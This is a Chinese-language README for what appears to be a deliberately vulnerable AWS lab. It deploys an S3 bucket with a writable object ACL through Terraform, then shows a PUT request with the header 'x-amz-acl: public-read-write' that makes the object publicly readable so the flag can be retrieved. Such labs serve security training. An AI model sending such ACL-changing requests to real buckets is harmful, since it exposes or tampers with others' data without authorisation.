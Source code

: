 # 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本

虽然你在实际环境中可能不会遇到，玩的愉快

## 部署环境

```bash
cd /TerraformGoat/aws/object_storage_service/object_acl_writable/
```

![image-20220426152245856](../../../images/image-20220426152245856.png)

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

```bash
terraform init
```

![image-20220426152354009](../../../images/image-20220426152354009.png)

```bash
terraform apply
```

![image-20220426152417710](../../../images/image-20220426152417710.png)

![image-20220426152428214](../../../images/image-20220426152428214.png)

输入yes之后，会自动的快速构建场景

## Get Flag

![image-20220426152550418](../../../images/image-20220426152550418.png)

我们看到的文件的列表，尝试访问index.html

![image-20220426152651701](../../../images/image-20220426152651701.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message></Error>
```

禁止访问，但是我们可以通过PUT方法，在请求头中添加`x-amz-acl`中添加`public-read-write`来修改这个对象是否可以读或写

![image-20220426152744234](../../../images/image-20220426152744234.png)

![image-20220426172410852](../../../images/image-20220426172410852.png)

```http
PUT /index.html?acl HTTP/1.1
Host: hxseclabteztq.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

然后我们再获取一下这个对象的ACL，会发现，现在所有用户都可以对其进行读写

![image-20220426172506589](../../../images/image-20220426172506589.png)

随后在访问这个index.html，成功获取flag

![image-20220426172534934](../../../images/image-20220426172534934.png)

## 销毁挑战

```bash
terraform destroy
```

![image-20220426173539820](../../../images/image-20220426173539820.png)

输入yes即可

![image-20220426173554665](../../../images/image-20220426173554665.png)
